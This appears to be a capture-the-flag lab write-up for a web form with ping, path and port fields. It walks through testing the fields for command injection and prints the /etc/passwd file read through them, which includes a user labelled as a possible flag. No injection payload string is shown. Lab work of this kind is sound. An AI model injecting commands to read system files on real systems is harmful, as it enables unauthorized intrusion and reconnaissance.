 ```
	System to ping:
	Path to test:
	Port to check:
```

Test the various fields and see what vulnerabilities you can exploit. 


## Command Injection:

After verifying that Command Injection is possible try the following:
	
	* Enumerating /etc/passwd in all the fields provided above

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/bin/bash
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false
billybob:x:1001:1001:Possible Flag Here:/home/billybob:/bin/bash	

```
Next lets see who we are logged in as.

	* User is billybob
billybob:x:1001:1001:Possible Flag Here:/home/billybob:/bin/bash
